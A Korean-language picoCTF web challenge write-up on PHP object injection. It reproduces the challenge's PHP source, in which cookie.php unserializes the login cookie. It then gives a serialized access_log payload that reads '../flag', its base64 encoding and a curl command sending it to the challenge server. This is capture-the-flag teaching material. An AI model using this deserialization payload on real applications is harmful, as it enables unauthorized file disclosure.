 ```yaml
---
tags:
  - picoCTF
  - "#web"
  - php
  - php-object-injection
tech:
  - PHP Object Injection
---
```



# Walk-Through

문제 링크로 접속하면 username과 password 입력 박스가 보인다. 입력 박스를 통해 기본적으로 시도해볼 수 있는 SQL Injection 을 해봤지만 성공하진 않는다.

문제 풀이에 대한 힌트를 얻기 위해 사이트 내부로 돌아다니자. 일단 /robots.txt 를 접속 시도했을때 다음과 같은 내용이 보인다.
```txt
User-agent: *
Disallow: /admin.phps
```

https://www.solvusoft.com/ko/file-extensions/file-extension-PHPS 에 따르면 phps는 PHP Source를 볼 수 있는  파일이라고 되어있다. robots.txt를 통해 admin.phps가 노출된 걸 통해 사이트 내 다른 파일도 phps가 접근 가능한게 아닐까 ?

F12를 눌러 Network 탭을 통해 username & password 입력박스의 경로가 "/index.php" 라는 걸 확인할 수 있다. 이후 index.phps 로 접근하면 소스 파일을 열어볼 수 있다.
```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
해당 소스를 흝어보니 로그인에 성공한 경우 authentication.php를 호출하는걸로 보아 이 파일도 phps로 접근하면 소스를 읽어볼 수 있을 듯 하다.
```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
authentication.phps 에서 또한 cookie.php 파일을 확인할 수 있다. cookie.phps로 접속해서 소스를 확인하자.
```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

cookie.phps를 통해 cookie에 login이라는 key를 통해 무언가 시도해볼 수 있는 것으로 보인다.

# PHP Object Injection
PHP Object injection은 unserialize() 함수에 사용자가 입력한 값을 전달되기 전에 제대로 삭제되지 않은 경우 발생한다고 한다.

PHP는 객체 직렬화를 허용하므로 공격자가 임시로 직렬화된 문자열을 취약한 unserializer() 호출에 전달하여 임의의 PHP 객체를 주입할 수 있다.

이 문제에서는 authentication.php에 정의된 "access_log"의 log_file 변수에 문제에서 힌트로 준 플래그 파일의 경로를 가리키게 해보자.  

# Payload

cookie의 login이라는 key에 입력할 value를 다음과 같이 입력하자.
```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
위 값이 의미하는 바는 각각 다음과 같다.
```
Object:Object Name Length:"Class Name":Object Size:{s}
```
O : Object
10 : Object Name Length
"access_log" : Class Name
1 : Object Size (입력값)
s : String
8 : String Length
log_file : String Name
s : String
7 : String Legnth
"../flag" : String Name


위 값을 base64로 encode 하며 다음과 같은 값이 나온다.
```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
브라우저의 쿠키 편집 도구를 이용해서 시도할 수도 있겠으나 단순히 curl을 이용해보자.
``` shell
╰─$ curl -v --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9" http://mercury.picoctf.net:8404/authentication.php
```
위 curl 명령의 결과로 flag 획득이 가능하다.